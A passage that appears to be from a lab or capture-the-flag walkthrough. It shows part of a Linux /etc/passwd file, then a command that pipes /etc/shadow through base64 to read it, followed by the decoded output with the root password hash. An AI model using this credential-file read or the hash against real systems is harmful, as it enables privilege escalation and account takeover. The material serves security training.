 ```
usbmuxd:x:113:113:usbmuxd user:/:/sbin/nologin
geoclue:x:989:983:User for geoclue:/var/lib/geoclue:/sbin/nologin
gdm:x:42:42::/var/lib/gdm:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
gnome-initial-setup:x:988:982::/run/gnome-initial-setup/:/sbin/nologin
pcp:x:987:981:Performance Co-Pilot:/var/lib/pcp:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/var/lib/oprofile:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
leonard:x:1000:1000:leonard:/home/leonard:/bin/bash
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
missy:x:1001:1001::/home/missy:/bin/bash
```
`shadow`
```
[leonard@ip-10-10-178-144 ~]$ /usr/bin/base64 "/etc/shadow" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
```
